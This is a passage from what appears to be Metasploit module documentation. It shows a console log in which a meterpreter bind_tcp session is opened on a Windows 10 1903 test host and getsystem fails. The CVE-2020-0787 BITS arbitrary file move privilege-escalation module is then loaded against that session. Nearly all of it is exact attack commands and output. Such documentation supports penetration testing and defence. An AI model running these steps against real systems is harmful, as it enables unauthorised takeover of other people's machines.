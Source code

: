 
meterpreter >
```

### Windows 10 v1903 x86 - Build 18362.30

```
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     172.26.17.231    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.26.17.231:4444
[*] Sending stage (176195 bytes) to 172.26.17.231
[*] Meterpreter session 4 opened (0.0.0.0:0 -> 172.26.17.231:4444) at 2020-06-10 12:16:12 -0500

meterpreter > getuid
Server username: DESKTOP-PL99PE8\test
meterpreter > sysinfo
Computer        : DESKTOP-PL99PE8
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 4...
msf exploit(multi/handler) > use exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set SESSION 4
SESSION => 4
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options
